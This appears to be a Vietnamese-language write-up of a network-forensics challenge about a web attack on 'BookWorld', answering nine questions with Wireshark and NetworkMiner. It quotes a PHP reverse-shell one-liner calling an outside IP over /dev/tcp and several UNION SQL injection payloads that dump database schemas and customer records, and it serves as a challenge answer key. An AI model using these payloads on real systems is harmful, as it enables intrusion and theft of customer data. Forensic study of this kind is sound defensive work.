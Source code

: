 # Web Investigation

> As the lead analyst on this case, you are required to analyze the network traffic to uncover the nature of the suspicious activity. Your objectives include identifying the attack vector, assessing the scope of any potential data breach, and determining if the attacker gained further access to BookWorld's internal systems.

> Tools:

>    Wireshark , Network Miner


## Q1: By knowing the attacker's IP, we can analyze all logs and actions related to that IP and determine the extent of the attack, the duration of the attack, and the techniques used. Can you provide the attacker's IP?

+ để checking toàn diện về tiếp bị trong traffic network => conversations

=> 2 ip này đang giao tiếp với nhau nhiều nhất để sâu hơn ta sẽ check tcp connection của nó 

  ![360390665-75c7980a-0cef-460e-908e-e91f1a26e3d4](https://github.com/user-attachments/assets/a236ae88-ba56-411a-9c79-bafa6419fd22)

+ để điều tra ta có attacker có vẻ đang khai thác 1 số lỗ hổng như : sql injection , file uploads , fuzz dns

      <?php exec("/bin/bash -c 'bash -i >& /dev/tcp/"111.224.250.131"/443 0>&1'");?>

=> đây là file NVri2vhp.php đã upload script có vẻ đang tạo kết nối tcp listen tại host 111.224.250.131 => file upload vuln 

![360454285-635e933f-4da7-4366-9337-c97a9a8714e0](https://github.com/user-attachments/assets/59e33316-11de-4f94-918b-8a901dd5819d)


=> Anwser: 111.224.250.131

## Q2: If the geographical origin of an IP address is known to be from a region that has no business or expected traffic with our network, this can be an indicator of a targeted attack. Can you determine the origin city of the attacker?

=> dùng iplocation lookup : check với ip 111.224.250.131

![360455544-04d75a0b-17b4-490e-ae0f-121d18d21f21](https://github.com/user-attachments/assets/b8bca8d9-6e87-4d74-9b2b-2687931be210)


=> City: Shijiazhuang

## Q3: Identifying the exploited script allows security teams to understand exactly which vulnerability was used in the attack. This knowledge is critical for finding the appropriate patch or workaround to close the security gap and prevent future exploitation. Can you provide the vulnerable script name?

+ xác định vị trí của script bị inject vào param có thể gây ra lỗ hổng

![360498767-4dd94621-6c89-463f-98e1-aed216e92575](https://github.com/user-attachments/assets/41f8e5bc-deab-435c-9077-d8989e792d6d)

=> ta có thể thấy vị trí trên URI đó là search.php?search=' đang test lỗ hổng sql => respond 500 server 

=> Anwser: search.php 

## Q4: Establishing the timeline of an attack, starting from the initial exploitation attempt, What's the complete request URI of the first SQLi attempt by the attacker?

+ xác định lần tấn công đầu tiên trả về respond 200 OK => /search.php?search=book%20and%201=1;%20--%20-

![360512547-f9250720-75b7-43c2-b3e0-ec432d8a36d1](https://github.com/user-attachments/assets/239d67b9-9533-4258-971b-46b9e97a9737)


=> Anwser: /search.php?search=book%20and%201=1;%20--%20- 

## Q5: Can you provide the complete request URI that was used to read the web server available databases?

=> câu này hiểu xem sqli có thể extract URi có thê web server available databases injection vào param   

![360478838-081be448-c9da-4fe0-a13b-a2bc8b7acda3](https://github.com/user-attachments/assets/39a01523-4fb3-4d5b-8ec7-a7b7d62feecd)


```/search.php?search=book%27%20UNION%20ALL%20SELECT%20NULL%2CCONCAT%280x7178766271%2CJSON_ARRAYAGG%28CONCAT_WS%280x7a76676a636b%2Cschema_name%29%29%2C0x7176706a71%29%20FROM%20INFORMATION_SCHEMA.SCHEMATA--%20-```

=> Anwser: /search.php?search=book%27%20UNION%20ALL%20SELECT%20NULL%2CCONCAT%280x7178766271%2CJSON_ARRAYAGG%28CONCAT_WS%280x7a76676a636b%2Cschema_name%29%29%2C0x7176706a71%29%20FROM%20INFORMATION_SCHEMA.SCHEMATA--%20-

## Q6: Assessing the impact of the breach and data access is crucial, including the potential harm to the organization's reputation. What's the table name containing the website users data?

+ table name chứa users data là customers truy vấn ra tài khoản của website 

![360523069-80ba8f67-c0c6-4fee-b95a-0ece62281721](https://github.com/user-attachments/assets/741a96c4-7fab-41e5-bd08-d5947610006e)



    book' UNION ALL SELECT NULL,CONCAT(0x7178766271,JSON_ARRAYAGG(CONCAT_WS(0x7a76676a636b,address,email,first_name,id,last_name,phone)),0x7176706a71) FROM bookworld_db.customers-- -

=> Anwser: customers

## Q7: The website directories hidden from the public could serve as an unauthorized access point or contain sensitive functionalities not intended for public access. Can you provide name of the directory discovered by the attacker?

+ attacker đã tìm kiếm trong directory admin nơi mà chứa các thông tin mật như username, password của user cũng như admin

![360528050-2408f3e6-56c7-4458-915a-6e64b5c5e180](https://github.com/user-attachments/assets/bca18977-1187-4c1a-bad7-523160da228a)


=> Answer: /admin/

## Q8: Knowing which credentials were used allows us to determine the extent of account compromise. What's the credentials used by the attacker for logging in?

> network Minner tập trung vào việc trích xuất và phân bố những dữ liệu cụ thể từ các gói tin

![361099906-f5cf8cf7-fe47-4891-95f8-16266c1b8ef2](https://github.com/user-attachments/assets/38398ee8-34d7-45e3-843f-503fec2015eb)

> ta thấy credentials atttacker là  username admin và password admin123! được sử dụng cuối cùng và sau đó kẻ tấn công đã truy cập được vào

=> admin:admin123!

## Q9: We need to determine if the attacker gained further access or control on our web server. What's the name of the malicious script uploaded by the attacker?

+ Như mình đã tìm được ở Q1 thì file được upload lên là NVri2vhp.php nhằm tạo backdoor để sử dụng các câu lệnh từ xa

![361100068-a01b58ed-bbfe-4935-b943-e7f99b0e8285](https://github.com/user-attachments/assets/ab53ef67-c72c-4d63-a713-d80bb5cf3160)


=> Answer: NVri2vhp.php
